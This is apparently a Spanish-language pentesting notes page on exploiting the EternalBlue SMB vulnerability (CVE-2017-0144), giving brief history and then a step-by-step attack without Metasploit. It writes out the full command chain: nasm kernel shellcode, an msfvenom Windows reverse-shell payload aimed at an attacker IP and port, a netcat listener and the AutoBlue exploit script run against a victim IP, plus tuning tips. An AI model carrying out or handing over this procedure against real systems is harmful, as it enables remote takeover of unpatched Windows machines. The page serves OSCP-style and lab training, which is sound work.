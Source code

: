 ```yaml
---
description: Como explotar eternalblue en SMB
---
```


# ETERNALBLUE

## INFORMACIÓN BÁSICA

{% embed url="https://www.incibe-cert.es/alerta-temprana/vulnerabilidades/cve-2017-0144" %}
Fuente
{% endembed %}

**EternalBlue**​ es un exploit supuestamente desarrollado por la NSA. Fue filtrado por el grupo de hackers Shadow Brokers el 14 de abril de 2017, y fue utilizado en el ataque mundial de ransomware con WannaCry del 12 de mayo de 2017\
\
Se puede explotar con metasploit facilmente.\
\
**Doublepulsar** es una herramienta de implantación de puerta trasera desarrollada por Equation Group de la Agencia de Seguridad Nacional (NSA) de EE.UU. que fue filtrada al público por The Shadow Brokers a comienzos de 2017.\
\
Se pueden combinar como hizo [ELEVENPATHS](https://github.com/Telefonica/Eternalblue-Doublepulsar-Metasploit)

## EXPLOIT SIN MSF

{% embed url="https://4st1nus.gitbook.io/hackthebox/hack-the-box-blue-walkthrough-without-metasploit" %}
Fuente
{% endembed %}

Donde se complica éste exploit es si intentamos realizarlo sin utilizar Metasploit. Existen infinidad de scripts escritos en python pero la mayoría de ellos no son compatibles con python3.

La mejor forma de explotarlo al estilo OSCP es clonando la herramienta AutoBlue de su github y utilizando sus herramientas para nuestro objetivo:

{% embed url="https://github.com/3ndG4me/AutoBlue-MS17-010" %}
Fuente
{% endembed %}

Lo primero que debemos hacer es preparar el Payload. Para ello, en vez de seguir los pasos del script, utilizamos los siguientes comandos:

```
nasm -f bin eternalblue_kshellcode_x64.asm -o evilKernel.bin
```

```
msfvenom -p windows/x64/shell_reverse_tcp EXITFUNC=thread LHOST=<Attacker-IP> LPORT=<Attacker-Port> -f raw -o evilReverse.bin
```

```
cat evilKernel.bin evilReverse.bin > evilPayload.bin
```

{% hint style="info" %}
De esta manera estamos preparando nuestro Payload para poder ejecutar la reverse shell desde Netcat y no desde Metasploit.
{% endhint %}

Iniciamos `nc -lvnp [Puerto]` en la máquina atacante.

Por último ejecutamos el script

```
python eternalblue_exploit7.py [IP victima] ./shellcode/evilPayload.bin [groom connections]
```

{% hint style="warning" %}
Las `groom connections` son una parte limitante de la operatividad del script.

Es necesario ir probando números (del 1 al 25 es suficiente) hasta que el exploit funcione.
{% endhint %}

![groom connections probadas](../../.gitbook/assets/eternalblue1.png)
